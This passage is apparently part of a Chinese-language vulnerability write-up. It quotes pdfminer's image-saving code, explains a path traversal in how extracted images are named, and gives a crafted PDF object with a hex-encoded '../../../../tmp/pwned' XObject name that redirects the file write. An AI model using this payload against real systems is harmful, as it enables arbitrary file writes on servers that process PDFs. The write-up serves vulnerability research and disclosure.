 ```
        elif image.bits == 1:
            name = self._save_bmp(image, width, height, (width + 7) // 8, image.bits)

        elif image.bits == 8 and (
            LITERAL_DEVICE_RGB in image.colorspace
            or LITERAL_INLINE_DEVICE_RGB in image.colorspace
        ):
            name = self._save_bmp(image, width, height, width * 3, image.bits * 3)

        elif image.bits == 8 and (
            LITERAL_DEVICE_GRAY in image.colorspace
            or LITERAL_INLINE_DEVICE_GRAY in image.colorspace
        ):
            name = self._save_bmp(image, width, height, width, image.bits)

        elif len(filters) == 1 and filters[0][0] in LITERALS_FLATE_DECODE:
            name = self._save_bytes(image)

        else:
            name = self._save_raw(image)

        return name
```
获取到文件名及路径后，Pdfminer 直接用 path 路径将写入文件 fp.write，假设 path 为 /x/x/uploads/../../../tmp/l1.jpg，就能进行跨目录写文件
```
def _save_jpeg(self, image: LTImage) -> str:
	"""Save a JPEG encoded image"""
	data = image.stream.get_data()

	name, path = self._create_unique_image_name(image, ".jpg")
	with open(path, "wb") as fp:
		if LITERAL_DEVICE_CMYK in image.colorspace:
			try:
				from PIL import Image, ImageChops  # type: ignore[import]
			except ImportError:
				raise ImportError(PIL_ERROR_MESSAGE)

			ifp = BytesIO(data)
			i = Image.open(ifp)
			i = ImageChops.invert(i)
			i = i.convert("RGB")
			i.save(fp, "JPEG")
		else:
			fp.write(data)

	return name
```
如果控制 PDF 内的 XObject 名称，是否就可控写入？我构造一个恶意 PDF 来完成构想
```
3 0 obj
<< 
  /Type /Page 
  /Resources << 
    /XObject << 
      /#2E#2E#2F#2E#2E#2F#2E#2E#2F#2E#2E#2Ftmp#2Fpwned 4 0 R 
    >> 
  >> 
>>
...
```
path 成功控制为指定内容